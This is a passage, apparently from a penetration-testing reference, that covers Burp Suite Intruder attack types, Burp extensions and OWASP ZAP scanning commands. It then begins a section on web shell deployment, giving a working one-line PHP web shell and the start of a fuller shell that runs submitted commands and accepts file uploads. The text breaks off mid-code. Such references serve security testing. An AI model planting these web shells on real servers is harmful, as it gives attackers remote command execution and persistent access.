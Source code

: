 ### Advanced Burp Suite Usage
```bash
# Burp Suite Professional Features
# Intruder Attack Types:
# - Sniper: Single payload set, single injection point
# - Battering Ram: Single payload set, multiple injection points
# - Pitchfork: Multiple payload sets, synchronized
# - Cluster Bomb: Multiple payload sets, all combinations

# Custom Burp Extensions
# Logger++: Advanced logging and searching
# Autorize: Authorization testing
# J2EEScan: Java application security scanner
# Backslash Powered Scanner: Advanced injection techniques

# Burp Collaborator
# Out-of-band interaction detection
# DNS, HTTP, SMTP callbacks
# Blind vulnerability detection
```

**Documentation**: Advanced web application security testing using Burp Suite Professional features.
**Limitations**: Requires professional license for full features; manual analysis needed for complex vulnerabilities.

### OWASP ZAP Advanced Scanning
```bash
# ZAP Baseline Scan
zap-baseline.py -t http://example.com -r zap_baseline_report.html

# ZAP Full Scan
zap-full-scan.py -t http://example.com -r zap_full_report.html

# ZAP API Usage
curl 'http://localhost:8080/JSON/core/view/alerts/'
curl 'http://localhost:8080/JSON/spider/action/scan/?url=http://example.com'

# Custom ZAP Scripts
# Active scan rules
# Passive scan rules
# HTTP sender scripts
# Stand-alone scripts
```

**Documentation**: Automated web application security scanning using OWASP ZAP.
**Limitations**: Automated scanners may miss business logic flaws; requires manual verification of findings.

## Web Shell Deployment and Persistence

### PHP Web Shells
```php
// Simple PHP Web Shell
<?php system($_GET['cmd']); ?>

// Advanced PHP Web Shell
<?php
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    if($cmd == 'upload'){
        move_uploaded_file($_FILES['file']['tmp_name'], $_FILES['file']['name']);
        echo "File uploaded successfully";
    } else {
```
